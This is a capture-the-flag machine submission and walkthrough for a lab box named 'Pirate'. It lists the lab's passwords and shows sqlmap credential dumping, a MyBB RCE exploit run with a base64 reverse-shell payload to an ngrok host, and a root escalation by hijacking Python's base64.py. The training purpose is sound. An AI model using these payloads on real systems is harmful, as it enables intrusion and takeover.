

# Pirate

## Introduction

I made this box because I want to learn something new and add experience in the field of cybersecurity , To pwned the machine you just need these skill list to pwn this machine is basic sql injection using sqlmap or manually  , basic webshell / remote command execution , basic python and research skill.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| john  |       aDmin@12142csaJQA#            |
| root  |       Tryhpwnme@12142csaJQA#        | 
| admin |        7#GpL@9sF!2o                 |

### Key Processes

This machine have vulnerability SQL injection . SQL injection stand for Structured Query Language , SQL Injection works for dump all databases from webserver and attacker can take advantage of the databases . Attacker can steal sensitive data like username password or something else . We can steal username password from there as superuser and we can modify anything over there and we can upload shell to gain remote access . After that we can find the password of admin to login ftp server to get user john . Then after we get user john we can privilege escalation with sudo NOPASSWD with the script . 


### Other

I used setup with a static ip i hope you modify it . If this machine is easy for you you can change difficult to easy


# Writeup


# Enumeration

First of all we enumeration with nmap to scan openport 
```
└─# nmap -sC -sV -p- -T4 --min-rate=9326 --vv test.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-12 10:13 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:13
Completed NSE at 10:13, 0.00s elapsed
Initiating ARP Ping Scan at 10:13
Scanning test.htb (192.168.179.130) [1 port]
Completed ARP Ping Scan at 10:13, 0.15s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:13
Scanning test.htb (192.168.179.130) [65535 ports]
Discovered open port 22/tcp on 192.168.179.130
Discovered open port 80/tcp on 192.168.179.130
Increasing send delay for 192.168.179.130 from 0 to 5 due to 4163 out of 10406 dropped probes since last increase.
Increasing send delay for 192.168.179.130 from 5 to 10 due to 1387 out of 3466 dropped probes since last increase.
Warning: 192.168.179.130 giving up on port because retransmission cap hit (6).
Completed SYN Stealth Scan at 10:14, 40.85s elapsed (65535 total ports)
Initiating Service scan at 10:14
Scanning 2 services on test.htb (192.168.179.130)
Completed Service scan at 10:14, 6.21s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.179.130.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 1.42s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 0.04s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 0.01s elapsed
Nmap scan report for test.htb (192.168.179.130)
Host is up, received arp-response (0.00077s latency).
Scanned at 2024-02-12 10:13:58 EST for 49s
Not shown: 42697 closed tcp ports (reset), 22836 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:da:f0:bf:4f:f5:c9:56:2c:24:fc:cc:52:92:2c:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmgjFgxSPy9cnoF943BhcVjhRR2Z65iTmRdpuAGuBgwqkK0WE/x+wt6TMw627MnYVYOXVdEsqZk3qr7j6Lq+aI=
|   256 eb:3e:9a:f8:fe:13:e0:67:e5:86:8b:97:a5:d2:bc:5b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGD/8AG7JO/2NXtR63hGB3p5lFeC6XEa1gpxEcnHfQEb
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: HackMe - Web Hacking Test
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:E2:23:10 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:14
Completed NSE at 10:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.24 seconds
           Raw packets sent: 330653 (14.549MB) | Rcvd: 43975 (1.759MB)
```

There have 2 port only opened is 22 and 80 . So let's we check the website to get remote access


Look at "Notice" there said have a secretpage at `/secretpage` so let's we check it out . Before that i wanna say this webpage have login form and register . I've created my account and already logged in to my account . There have discussion post also have post id so i think maybe it's vuln SQL Injection or IDOR let's we try later . Let's we go to secretpage first


As you can see here there are used MyBB forum . MyBB forum familiar with exploit CVE firstly we need get username and password to knows version of MyBB forum to search on google . Now we need go back to my account and go to discussion post id


I've clicked on the discussion another person posted, and I see the id parameter used as base64 . Now i'll try decode the id base64 

## SQL Injection

```
└─$ echo "Ng==" | base64 -d
6 
```

after i decode that it is number id . So the discussion post id are used number but there changed to base64 . So i'll try put ' to see if it will be an error or not . If after i put ' is error that mean maybe vulnerable SQL Injection . After that we can dump username and password and we can login MyBB forum as admin 


```
└─$ echo "6'" | base64
NicK
```

i've tried put this at id parameter and i got this error

```
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 2 in /var/www/html/index.php:326 Stack trace: #0 /var/www/html/index.php(326): mysqli_query() #1 {main} thrown in /var/www/html/index.php on line 326
```

I think that vuln SQL Injection now let's we try dump with sqlmap . Ouh yeah first of all you neeed cookie to SQL injection because there need session or cookie to see discussion post , if you dont have the session or cookie you can see the discussion post . so copy your cookie using console or cookie editor and paste at your sqlmap command like at below


```
sqlmap -u "http://test.htb/?id=Ng==" --dbs --base64=id --cookie=PHPSESSID=sq56028jqanhhih25k0e29334u
```


And we successfully dump the databases of website . Now let's we try get the password from the database . I want choose mybb database and get the username and password but there using salt password so it's hard to hash and will take so much times , so i'll choose hackme database and try find the password maybe admin password of mybb saved in hackme database 


After a few minutes i dump and i found there have username password columns so let's we dump it


```
└─$ sqlmap -u "http://test.htb/?id=Ng==" --base64=id --cookie=PHPSESSID=5ntfputn603mok7qcf2oef9bf5 -D hackme -T users -C username --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:43:00 /2024-02-13/

[08:43:00] [INFO] resuming back-end DBMS 'mysql' 
[08:43:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=MycgQU5EIDg1NzE9ODU3MSBBTkQgJ0F1akMnPSdBdWpD

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=MycgQU5EIEdUSURfU1VCU0VUKENPTkNBVCgweDcxNzg3NjdhNzEsKFNFTEVDVCAoRUxUKDMzNjg9MzM2OCwxKSkpLDB4NzE3Njc4NzA3MSksMzM2OCkgQU5EICdoeFdVJz0naHhXVQ==

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=MycgQU5EIChTRUxFQ1QgNjE3MCBGUk9NIChTRUxFQ1QoU0xFRVAoNSkpKXhySW0pIEFORCAnTkNvRic9J05Db0Y=

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=LTMxNzEnIFVOSU9OIEFMTCBTRUxFQ1QgTlVMTCxOVUxMLE5VTEwsQ09OQ0FUKDB4NzE3ODc2N2E3MSwweDdhNGI1NTRjNTE0NDRhNzM3NTczNTE0ZDY3NzQ2NDQ2NTA1MTUxNzA2ODY1NTc1MDQ4NDY1NTZiNGI1MjYxNTQ0MjdhNjY0MTcwNDE1Njc0LDB4NzE3Njc4NzA3MSksTlVMTC0tIC0=
---
[08:43:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[08:43:01] [INFO] sqlmap will dump entries of all tables from all databases now
[08:43:01] [INFO] fetching tables for database: 'hackme'
[08:43:01] [WARNING] reflective value(s) found and filtering out
[08:43:01] [INFO] fetching columns for table 'users' in database 'hackme'
[08:43:01] [INFO] fetching entries for table 'users' in database 'hackme'
Database: hackme
Table: users
[3 entries]
+----+--------+--------------------+----------+
| id | name   | password           | username |
+----+--------+--------------------+----------+
| 1  | Admin  | P@ssw0rd!sW0r1d    | 4dmin    |
| 2  | ddsd   | d                  | d        |
| 3  | mybb   | 7RdFdK8sqcrWWhkaCF | mybb     |
+----+--------+--------------------+----------+

```


We got user pass of mybb user , so let's go back to the secretpage because there used MyBB admin login so i think we can login as administrator . Default directory admin login is `/admin` so i'll go to `/secretpage/admin` . I've tried login with all username and password only mybb user only worked!!


## Identify Exploit

user:mybb
pass:7RdFdK8sqcrWWhkaCF


Now i'm on MyBB admin panel so you can see there used MyBB 1.829 version . So i'll go to google and search "MyBB 1.829 Exploit" and i was found exploitdb page .


Now click the link page and would go to exploitdb [MyBB Remote Code Execution 1.829](https://www.exploit-db.com/exploits/50924) . There showed POC code for exploit and gain remote access by Remote Code Execution . The exploit have CVE numbers is CVE-2022-24734 . So save POC code as python and run it . This POC are Authenticated Remote Code Execution that mean we'll need admin user pass to exploit Remote Code Execution . So now we have the user pass so we can exploit now , Let's do now

```
└─# python3 b.py --username mybb --password 7RdFdK8sqcrWWhkaCF --host "http://test.htb/secretpage" --cmd id  
[+] Login successful!
[*] Adding a malicious settings...
[+] Malicious post settings accepted!
[+] Result: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Yes !! We have revshell as www-data user now we try revshell

`python3 b.py --username mybb --password 7RdFdK8sqcrWWhkaCF --host "http://test.htb/secretpage" --cmd "echo "c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTg0OTYgMD4mMQ==" | base64 -d | bash"`

This code for revshell 

"c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTg0OTYgMD4mMQ==" this is our payload you need encode this to as base64 and change to your IP and PORT


```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40184
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Revshell has been connected !! now we'll try get user access we need find name of user password or priv8 keys . Let's do now

```
$ cat /etc/passwd | grep /home
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
admin:x:1001:1002::/home/admin:/bin/sh
```

Now i've tried read registered users in /etc/passwd and there have 2 users only is `john` and `admin` now i'll try using linpeas to find sensitive data file 


Look at here there have `Database.kdbx` file and `script.py` i think the password saved in `Databases.kdbx` one of users . Also there have script and the script saved as root permission


The code we can put malicious code in `base64.py` file and we can get remote access but we dont have permision to edit that file so we'll try get the user first . Let's we check the `Database.kdbx` file . I'll try download that file using `python3 -m http.server`


```
└─$ wget test.htb:8000/Database.kdbx
--2024-02-13 09:18:03--  http://test.htb:8000/Database.kdbx
Resolving test.htb (test.htb)... 192.168.179.130
Connecting to test.htb (test.htb)|192.168.179.130|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2206 (2.2K) [application/octet-stream]
Saving to: ‘Database.kdbx’

Database.kdbx                                   100%[=====================================================================================================>]   2.15K  --.-KB/s    in 0.008s  

2024-02-13 09:18:03 (283 KB/s) - ‘Database.kdbx’ saved [2206/2206]
```

Download in your linux . now i've downloaded that file now . I'll open this file with keepass


There need Master Password for login so i'll try login with mybb password and it's failed . Until i found this way , i've used password mysql in index.php on /var/www/html

Pass mysql:Admin@12132132


There said is this user pass for ftp login but ftp port is closed now i'll check port using netstat 

```
$ netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      17137/python3       
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -    
```

## Shell as admin

Only localhost are opened for ftp . so i will login with user pass ftp in `Database.kdbx` file . 

```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 32794
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@pirate:/var/www/html/secretpage/admin$ ftp localhost
ftp localhost
Connected to localhost.
220 (vsFTPd 3.0.5)
Name (localhost:www-data): admin
admin
331 Please specify the password.
Password: 7#GpL@9sF!2o

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
pwd
Remote directory: /srv/ftp/admin
```


Now we successfully login ftp as admin user , the ftp directory in `/srv/ftp/admin` 

```
150 Here comes the directory listing.
-rw-r--r--    1 0        0           63652 Feb 12 14:11 test.jpg
226 Directory send OK.
```
there have image file in ftp directory i'll download this file to check maybe password saved in this file


Lol it's cat image that is nothing let's we check in file contains the image using strings command to easy finding . Now i'll login su admin with ftp password because i can't download that file because only localhost can access . After i logged in as admin i'll go to `/srv/ftp/admin` to read the file image using strings command . Now i just need scroll up or scroll down until i found something suspicious


I found a hex strings i need go to hex encode website to encode this strings

`\x61\x44\x6d\x69\x6e\x40\x31\x32\x31\x34\x32\x63\x73\x61\x4a\x51\x41\x23`


Go to this website hex converter online to convert the hex to text

[Hex Converter Online](https://magictool.ai/tool/hex-to-text-converter/)


Maybe this is the password for john user , copy the text and try login as john user with this password 

pass:aDmin@12142csaJQA#


We successfully logged in as john user with the password


# Privilege Escalation

john@pirate:/tmp$ sudo -l
Matching Defaults entries for john on pirate:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on pirate:
    (root) NOPASSWD: /usr/bin/python3 /opt/script.py


nah before this we found this script also , but we can't edit base64.py because we dont have permision because only john and root user only have permision to edit . As you can see the code before


```
import base64

def encode_base64(input_string):
    encoded_bytes = base64.b64encode(input_string.encode('utf-8'))
    encoded_string = encoded_bytes.decode('utf-8')
    return encoded_string

# Example usage:
original_string = "/?id=1"
encoded_string = encode_base64(original_string)

print("Original String:", original_string)
print("Encoded String:", encoded_string)
```

only id parameter base64 encode only but this code not have command so we cant priv esc with command , so we priv esc using base64.py file because on this code using import base64 so we need find base64.py file and edit

```
john@pirate:/tmp$ locate base64.py
/snap/core/16202/usr/lib/python3.5/base64.py
/snap/core/16574/usr/lib/python3.5/base64.py
/snap/core18/2812/usr/lib/python3.6/base64.py
/snap/core20/1974/usr/lib/python3.8/base64.py
/snap/core20/2105/usr/lib/python3.8/base64.py
/usr/lib/python3.10/base64.py
```

This `/usr/lib/python3.10/base64.py` directory for base64.py now we edit the file python and put this code for gain remote access as root . 

```
import os
os.system('cp /bin/bash /tmp/bash && chmod 7777 /tmp/bash')
```




Like this and save and run the script and you will got bash suid and got root access


Now we've root access from base64.py script 

I hope you accept my machine  :)

